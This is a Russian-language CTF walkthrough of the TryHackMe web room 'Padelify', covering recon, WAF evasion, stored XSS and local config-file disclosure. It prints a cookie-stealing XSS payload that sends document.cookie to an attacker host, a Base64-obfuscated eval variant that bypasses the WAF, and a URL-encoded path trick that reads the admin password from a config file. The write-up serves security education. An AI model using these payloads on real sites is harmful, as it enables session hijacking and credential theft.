





# Padelify

> Технический разбор прохождения комнаты TryHackMe, сосредоточенной на исследовании веб-приложения, обходе фильтрации WAF, эксплуатации XSS и получении учётных данных через чтение конфигурационного файла.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Linux (Ubuntu) |
| Категория | Web |
| Основные техники | Веб-разведка, обход WAF, XSS, кража cookie, подмена сессии, чтение локального конфигурационного файла |

## Краткое резюме

Первоначальная разведка выявила доступные сервисы SSH и HTTP. Перебор содержимого веб-сервера позволил обнаружить несколько PHP-страниц, включая `/login.php`, `/live.php`, `/dashboard.php`, а также директорию `/config`.

Исследование формы регистрации показало возможность выполнения JavaScript-кода в контексте браузера модератора после обхода WAF. Это позволило получить cookie его сессии и доступ к первому флагу. Дальнейший анализ параметра `page` на `/live.php` позволил прочитать конфигурационный файл `config/app.conf`, содержащий пароль администратора. Авторизация с найденными учётными данными предоставила доступ ко второму флагу.

Цепочка прохождения:

`сканирование портов → веб-разведка → обход WAF → XSS → получение cookie модератора → подмена сессии → чтение конфигурационного файла → получение учётных данных администратора → авторизация`

## Разведка

### Сканирование портов

В ходе первоначальной разведки было выполнено полное TCP-сканирование целевой машины с определением версий обнаруженных сервисов:

```bash
nmap -sV -n -p- TARGET_IP
```

Результат:

```text
Nmap scan report for TARGET_IP
Host is up (0.00019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Сканирование выявило два доступных сервиса:

- `22/tcp` — SSH, `OpenSSH 9.6p1`;
- `80/tcp` — HTTP, `Apache 2.4.58`.

Наличие веб-сервера на `80/tcp` определило дальнейшее направление исследования.

### Поиск директорий и файлов

Для обнаружения доступных ресурсов веб-приложения использовался `Gobuster`. Стандартный User-Agent инструмента блокировался WAF, поэтому он был заменён на строку браузера `Mozilla/5.0`:

```bash
gobuster dir -u http://TARGET_IP -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql -a "Mozilla/5.0"
```

Среди результатов представляли интерес следующие ресурсы:

```text
/index.php            (Status: 200) [Size: 3853]
/login.php            (Status: 200) [Size: 1124]
/register.php         (Status: 302) [Size: 0] [--> index.php]
/webapp.conf          (Status: 403) [Size: 2872]
/live.php             (Status: 200) [Size: 1961]
/status.php           (Status: 200) [Size: 4086]
/app.conf             (Status: 403) [Size: 2872]
/config               (Status: 301) [Size: 317] [--> http://TARGET_IP/config/]
/logs                 (Status: 301) [Size: 315] [--> http://TARGET_IP/logs/]
/dashboard.php        (Status: 302) [Size: 0] [--> login.php]
/match.php            (Status: 200) [Size: 126]
/change_password.php  (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 2872]
```

Особый интерес представляли `/live.php`, `/dashboard.php`, `/match.php` и директория `/config`. Одновременно ответы `403 Forbidden` для конфигурационных файлов указывали на наличие ограничений доступа со стороны веб-сервера или WAF.

## Анализ веб-приложения

### Формы регистрации и авторизации

На главной странице приложения находилась форма регистрации.



Страница `/login.php` содержала форму авторизации.



### Проверка формы авторизации

Для первоначальной проверки формы на SQL-инъекцию в поле `Username` была передана тестовая полезная нагрузка:

```sql
' OR 1=1--
```

В поле `Password` было указано произвольное значение.

Сервер вернул сообщение о неверных учётных данных. Таким образом, эта проверка не подтвердила возможность обхода аутентификации с использованием данного SQL-пейлоада.

### Проверка XSS через форму регистрации

На странице регистрации было указано, что каждую заявку проверяет модератор. Это создавало потенциальную возможность выполнения пользовательского содержимого в контексте браузера другого пользователя.

Для проверки гипотезы на машине атакующего был запущен HTTP-сервер:

```bash
python3 -m http.server LPORT
```

В поле `Username` формы регистрации была передана следующая полезная нагрузка:

```html
<script>fetch("http://ATTACKER_IP:LPORT/"+document.cookie)</script>
```

Остальные поля были заполнены произвольными значениями.

При передаче пейлоада в открытом виде запрос блокировался WAF и приложение возвращало сообщение об ошибке безопасности.



### Обход WAF и получение cookie модератора

Для обхода фильтрации JavaScript-код был представлен в Base64 и выполнялся через конструкцию `eval(atob(...))` внутри обработчика `onload` элемента `iframe`:

```html
<iframe onload="eval(atob('ZmV0Y2goImh0dHA6Ly8xMC4xMTMuMTA5LjcwOjk5MTgvIitkb2N1bWVudC5jb29raWUpCgo='))">
```

После отправки этой полезной нагрузки запущенный HTTP-сервер начал получать запросы, содержащие cookie модератора.

Полученное значение cookie было установлено в собственной сессии. После перезагрузки страницы удалось получить доступ к первому флагу.

> В ходе предыдущих неудачных попыток формирования полезной нагрузки страница `/dashboard.php` была частично нарушена. По этой причине напрямую изменить пароль через неё в текущей сессии не удалось.

## Чтение конфигурационного файла

### Анализ параметра `page`

При исследовании `/live.php` в HTML-коде была обнаружена следующая ссылка:

```html
<li class="nav-item"><a class="nav-link" href="live.php?page=match.php">Live</a></li>
```

Параметр `page` использовался для указания загружаемого ресурса, поэтому была предпринята попытка запросить конфигурационный файл:

```text
http://TARGET_IP/live.php?page=config/app.conf
```

Запрос блокировался WAF.

### Обход фильтрации URL-кодированием

Для обхода фильтра путь к ресурсу был URL-закодирован:

```text
config%2Fapp%2Econf
```



После обхода фильтра приложение вернуло содержимое конфигурационного файла. В нём был обнаружен пароль от учётной записи администратора.

Таким образом, параметр `page` позволял получить содержимое локального конфигурационного файла после обхода WAF с помощью URL-кодирования.

## Доступ к учётной записи администратора

Чтобы сохранить уже существующую сессию, авторизация с полученными административными учётными данными выполнялась отдельно в Firefox, а не в браузере Burp Suite.

После ввода найденных учётных данных приложение предоставило доступ к странице со вторым флагом.



## Итог

В ходе прохождения была исследована поверхность атаки веб-приложения и выявлено несколько способов обхода реализованной фильтрации.

Сначала выполнение JavaScript-кода через форму регистрации позволило получить cookie модератора и использовать его сессию для доступа к первому флагу. Затем анализ параметра `page` на `/live.php` выявил возможность чтения конфигурационного файла после URL-кодирования пути. Полученный файл содержал пароль администратора, с помощью которого была выполнена авторизация и получен доступ ко второму флагу.

## Ключевые выводы

- Изменение стандартного User-Agent может быть достаточно для обхода простых правил WAF, блокирующих известные автоматизированные инструменты.
- Неуспешная одиночная проверка SQL-инъекции не подтверждает наличие уязвимости и не должна интерпретироваться как успешная эксплуатация.
- Пользовательские данные, просматриваемые привилегированным пользователем, представляют потенциальную XSS-поверхность атаки.
- Фильтрация опасных строк в исходном представлении запроса может обходиться альтернативным кодированием, если нормализация данных выполняется некорректно.
- Возможность управлять именем файла через параметр вроде `page` требует особого внимания, поскольку она может привести к раскрытию локальных файлов.
- Конфигурационные файлы могут содержать чувствительные учётные данные, поэтому возможность их чтения непосредственно влияет на безопасность приложения.

## Использованные инструменты

| Инструмент           | Использование                                                                      |
| -------------------- | ---------------------------------------------------------------------------------- |
| `Nmap`               | Сканирование TCP-портов и определение версий сервисов                              |
| `Gobuster`           | Перебор директорий и файлов веб-приложения                                         |
| `Python http.server` | Приём HTTP-запросов при проверке выполнения XSS-пейлоада                           |
| `Burp Suite`         | Работа с веб-приложением и сессией                                                 |
| `Firefox`            | Отдельная авторизация с найденными учётными данными без потери существующей сессии |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.